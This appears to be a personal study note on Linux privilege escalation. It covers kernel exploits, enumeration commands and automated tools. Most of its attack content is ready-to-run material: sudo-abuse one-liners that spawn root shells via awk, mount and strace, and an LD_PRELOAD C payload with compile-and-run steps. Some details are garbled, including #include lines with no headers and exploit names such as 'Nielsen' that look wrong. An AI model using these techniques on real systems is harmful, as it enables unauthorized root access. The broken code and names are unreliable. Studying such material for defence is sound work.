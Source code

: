 ***What's a Kernel***
A [[Linux]] Kernel is a computer program that control everything in the system.
The kernel facilitates the interaction between hardware and software. It's a translator, converting the IO into instruction.
The Kernel is loaded and stays in the Memory right after the bootloader loads up. It's responsible for loading the rest of the OS.
![[Pasted image 20240802065245.png]]
Source: https://en.wikipedia.org/wiki/Kernel_(operating_system)

***What's a Kernel Exploit?***
A kernel exploit consists of taking advantage of vulnerabilities discovered inside a specific version on the Linux Kernel.
Security Researchers are on the lookout to find and patch these vulnerabilities, but hackers also are always taking advantage of them if a patch is not found, if the patch has been found but the system was not fixed.
As a Security professionals, our job is to identify and patch these vulnerabilities before the hackers.

Some resources:
https://github.com/xairy/linux-kernel-exploitation
Also:
https://github.com/ankendenke/kernel-exploits

Steps to take control:
Manual commands:

***User and System Enum***
```
uname -a
whoami
id
sudo -l
```

After uname command, lookup on the resources above if the kernel version is listed on the vulnerability list.  Or lookup on google search.

Automated methods:

```
linpeas
linEnum

```
Kernel exploits consist of finding a bug in the kernel version at hand if it still exists and elevate our privilege to root, have unauthorized access to sensible area. Horizontal and vertical escalation are both methods to do damage to the system.
the most common exploits are:
- Dirty cow CVE-2016-5195 https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
- Nielsen 
- Half Nielsen

***Sudo Abuse***
Examples of privilege escalation abusing root
```
sudo awk 'BEGIN {system("/bin/sh")}'
```
```
sudo mount -o bind /bin/bash /bin/mount  
sudo mount
```
```
sudo strace -o/dev/null /bin/bash
```
LD_PRELOAD environment abuse
```
#include  
#include  
#include

void _init() {  
unsetenv(“LD_PRELOAD”);  
setresuid(0,0,0);  
system(“/bin/bash -p”);  
}

and then run it like so:  
gcc -fPIC -shared -o /tmp/x.so preload.c -nostartfiles  
sudo LD_PRELOAD=/tmp/x.so apache2

You’ll get shell.
```

